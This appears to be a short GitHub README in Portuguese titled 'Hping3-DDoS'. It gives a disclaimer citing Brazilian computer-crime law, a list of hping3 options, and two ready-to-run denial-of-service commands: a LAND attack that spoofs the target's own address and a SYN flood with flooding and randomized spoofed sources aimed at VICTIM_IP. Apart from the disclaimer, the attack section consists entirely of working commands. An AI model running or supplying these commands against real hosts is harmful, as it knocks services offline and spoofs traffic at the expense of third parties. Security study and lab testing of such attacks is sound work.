 # Hping3-DDoS

## AVISO
- Não me responsabilizo pelo o uso desses projetos/códigos para fins malignos. Eles são criados para pessoas que tenham interesse na área de Segurança da Informação.

- Todos os códigos e projetos foram testados em ambientes isolados por mim.

- Lembrem-se de que usar essas informações para hackear, invadir ou derrubar serviços de dispositivos alheios é CRIME previsto na Lei [14.155/2021](http://www.planalto.gov.br/ccivil_03/_ato2019-2022/2021/lei/L14155.htm).
## Important Commands

- Help hping3

```
sudo hping3 -h
```

```
• -V: Modo Verbose;
• -c: Contador de pacotes;
• -d: Tamanho do dado;
• -p: Porta de destino;
• -s: Porta de origem;
• –rand-source: Randomização da origem;
• –fast: 10 pacotes por segundo;
• –faster: 100 pacotes por segundo;
• –flood: Máximo de pacotes possı́veis por segundo;
```

```
Mode
  default mode     TCP
  -0  --rawip      RAW IP mode
  -1  --icmp       ICMP mode
  -2  --udp        UDP mode
  -8  --scan       SCAN mode.
                   Example: hping --scan 1-30,70-90 -S www.target.host
  -9  --listen     listen mode

```

## Attack DoS Land
```
hping3 -V -c 1000 -d 100 -S -p 21 -s 80 -k -a 192.168.1.110 192.168.1.110
```

## DoS type Syn Flooding
```
hping3 -V -c 1000000 -d 120 -S -p 445 -s 445 --flood --rand-source VICTIM_IP
```